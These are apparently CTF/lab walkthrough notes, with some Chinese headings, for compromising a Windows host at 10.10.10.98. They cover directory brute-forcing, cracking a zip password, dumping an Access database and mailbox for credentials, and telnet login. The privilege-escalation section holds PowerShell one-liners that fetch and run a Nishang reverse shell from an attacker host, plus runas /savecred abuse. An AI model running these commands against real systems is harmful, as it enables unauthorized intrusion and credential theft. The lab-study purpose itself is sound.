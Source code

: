                 gobuster -u http://10.10.10.98 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

## poke around ftp文件
                7z xxx.zip
                7z l -slt xxx.zip
                zip2john xxx.zip > xxx.hash
                file xxx.mdb
                apt install mdbtools
                strings -n 8 xxx.mdb | sort -u > wordlist
                mdbtools xxx.mdb

## john破解压缩包密码
                john xxx.hash --wordlist=wordlist
                john xxx.hash --show
                7z x xxx.zip
## mdb工具使用
                mdb-sql xxx.mdb
                => list tables
                => go 
                mdb-tables xxx.mdb
                for i in $(mdb-tables xxx.mdb); do mdb-export xxx.mdb $i > tables/$i; done
                du -s * // 查看文件大小
                wc -l * | sort -n // 按行数排列文件
                cat auth_user

## pst(microsoft email outlook folder)查看工具
                readpst xxx.pst
                less xxx.mbox
                (获得<user:password>)
                telnet 10.10.10.98
                (输入<user:password>)

## 提权
                > whoami
                > hostname
                > cd Desktop
                > powershell whoami
                mkdir www  cd www cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 ./reverse.ps1
                > powershell "IEX(New-Object Net.WebClient).downloadString('http://myip:8000/reverse.ps1')"
                > cmdkey /list
                > cd C:\inetpub\wwwroot
                > cd C:\Users\Public\Desktop
                > get-content "xxx.lnk"
                > $Wscript = New-Object -ComObject Wscript.Shell
                > $shortcut = Get-ChildItem *.lnk
                > $shortcut
                > $Wscript.CreateShortcut($shortcut)
                > runas /user:ACCESS\Administrator /savecred "whoami > C:\Users\Public\Desktop\test"
                > runas /user:ACCESS\Administrator /savecred "powershell """IEX(New-Object Net.WebClient).downloadString('http://myip:8000/9002.ps1')"""" \\ 失败
                > echo -n "IEX(New-Object Net.WebClient).downloadString('http://myip:8000/9002.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
